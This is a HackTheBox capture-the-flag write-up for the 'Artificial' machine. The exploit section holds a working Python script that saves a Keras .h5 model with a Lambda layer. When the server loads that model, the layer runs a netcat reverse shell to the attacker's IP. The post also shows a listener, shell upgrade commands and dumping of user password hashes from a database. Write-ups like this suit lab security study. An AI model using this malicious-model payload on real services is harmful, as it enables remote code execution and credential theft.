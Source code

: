 +++
title = 'HackTheBox: Artificial'
date = 2025-09-02T08:17:12-04:00
draft = false
+++
---------------------------------------
<details open>

<summary style="cursor:pointer; color:#8a2be2; font-size:1.4em; font-weight:bold; text-shadow:0 0 5px #8a2be2;">Reconnaissance</summary>



### Port Scan



```bash

rustscan -a 10.10.11.74 -- -A | tee rustscan.log

Open 10.10.11.74:22

Open 10.10.11.74:80

```



### Identify Target and Add to Hosts File



```bash

URL: http://10.10.11.74

```



Upon visiting the IP in a browser, we are redirected to:

		
		
```
	
http://artificial.htb

```



Add this domain to `/etc/hosts`:



```bash

sudo nano /etc/hosts

10.10.11.74 artificial.htb

```



### Web Enumeration



* Login and registration pages:

  [http://artificial.htb/login](http://artificial.htb/login)

  [http://artificial.htb/register](http://artificial.htb/register)



* Notes:



> Artificial is a platform that lets you easily build, test, and deploy AI models to solve real-world problems like sales forecasting.



### Directory Scan Using ffuf



```bash

ffuf -u http://artificial.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt

```



Results:



```

/login         [Status: 200]

/register      [Status: 200]

/logout        [Status: 302]

/dashboard     [Status: 302]

```



</details>



<details>

<summary style="cursor:pointer; color:#8a2be2; font-size:1.4em; font-weight:bold; text-shadow:0 0 5px #8a2be2;">Initial Access</summary>



### Registration



Register a new user at `/register`:



![Register page](artificialregister.png)



### Login



Login using the credentials at `/login`:



![Login page](artificiallogin.png)



### Exploit: Malicious .h5 Upload



```python

import tensorflow as tf



def exploit(x):

    import os

    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.93 6666 >/tmp/f")

    return x



model = tf.keras.Sequential()

model.add(tf.keras.layers.Input(shape=(64,)))

model.add(tf.keras.layers.Lambda(exploit))

model.compile()

model.save("exploit.h5")

```



Upload `exploit.h5`:



![Upload model](artificialuploadmodel.png)



### Listener



```bash

nc -lvnp 6666

```



### Trigger Shell



Click on view predictions:



![View predictions](viewpredicitons.png)



Get TTY:



```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

[Ctrl+Z]

stty raw -echo; fg

export TERM=xterm

```



</details>



<details>

<summary style="cursor:pointer; color:#8a2be2; font-size:1.4em; font-weight:bold; text-shadow:0 0 5px #8a2be2;">Post Exploitation</summary>



### Enumerate .db files



```bash

find / -name "*.db*" 2>/dev/null

sqlite3 /home/app/app/instance/users.db

```



Tables:



```sql

.tables

SELECT * FROM user;

```



Example:



```

1|gael|gael@artificial.htb|HASH

6|whoameye|whoameye@gmail.com|5f4dcc3b5aa765d61d8327deb882cf99

```



Login as Gael:



```bash

su - gael

cat ~/user.txt

```



Confirm container:



```bash

hostname

cat /etc/hosts

find / -name container 2>/dev/null

```



### Host Enumeration



* Search for backups

* Exfiltrate backup

* Analyze `backrest` files

* Crack passwords



### Privilege Escalation



* Add repo and run backup

* Dump snapshot files

* Root obtained



![Root obtained](fcde9198-a3ae-4ca9-a6cf-29a22afc115d.png)



</details>



<details>

<summary style="cursor:pointer; color:#8a2be2; font-size:1.4em; font-weight:bold; text-shadow:0 0 5px #8a2be2;">Final Notes</summary>



That wraps up my first HackTheBox writeup.

Hope you learned something new!



Happy hacking, 0xD3f3c7



</details>
